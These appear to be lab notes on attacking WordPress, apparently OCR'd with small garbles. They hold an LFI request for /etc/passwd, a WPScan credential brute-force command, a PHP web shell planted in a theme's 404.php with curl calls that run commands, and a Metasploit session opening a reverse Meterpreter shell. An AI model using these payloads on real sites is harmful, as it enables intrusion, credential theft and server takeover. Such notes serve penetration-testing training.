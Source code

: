 # Exploiting a vulnerable plugin


```
/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd.
```


# Attacking WordPress Users

WPscan can be used to brute force usernames and passwords. 

The tool uses two kinds of login brute force attacks, `xmlrpc` and `wp-login`.

The `wp-login` method will attempt to brute force the normal WordPress login page, while the `xmlrpc` method uses the WordPress API to make login attempts through `/xmlrpc.php`. The `xmlrpc` method is preferred as it is faster.

```
wpscan --password-attack xmlrpc -t 20 -U admin, david -P passwords.txt --url http://blog.inlanefreight.com
```


# RCE via the Theme Editor

```php
<?php

system($_GET['cmd']);

/**
 * The template for displaying 404 pages (not found)
 *
 * @link https://codex.wordpress.org/Creating_an_Error_404_Page
<SNIP>
```

```shell
curl -X GET "http://<target>/wp-content/themes/twentyseventeen/404.php?cmd=id"
```

curl -X GET "http://94.237.59.30:37428/wp-content/themes/twentyseventeen/404.php?cmd=cat%20%2Fhome%2Fwp%2Duser%2Fflag%2Etxt"
# Attacking Wordpress with Metasploit

```
msf5 > search wp_admin

Matching Modules
================

#  Name                                       Disclosure Date  Rank       Check  Description
-  ----                                       ---------------  ----       -----  -----------
0  exploit/unix/webapp/wp_admin_shell_upload  2015-02-21       excellent  Yes    WordPress Admin Shell Upload
```

```
msf5 exploit(unix/webapp/wp_admin_shell_upload) > set rhosts blog.inlanefreight.com
msf5 exploit(unix/webapp/wp_admin_shell_upload) > set username admin
msf5 exploit(unix/webapp/wp_admin_shell_upload) > set password Winter2020
msf5 exploit(unix/webapp/wp_admin_shell_upload) > set lhost 10.10.16.8
msf5 exploit(unix/webapp/wp_admin_shell_upload) > run

[*] Started reverse TCP handler on 10.10.16.8z4444
[*] Authenticating with WordPress using admin:Winter202@...
[+] Authenticated with WordPress
[*] Uploading payload...
[*] Executing the payload at /wp—content/plugins/YtyZGFIhax/uTvAAKrAdp.php...
[*] Sending stage (38247 bytes) to blog.inlanefreight.com
[*] Meterpreter session 1 opened
[+] Deleted uTvAAKrAdp.php

meterpreter > getuid
Server username: www—data (33)
```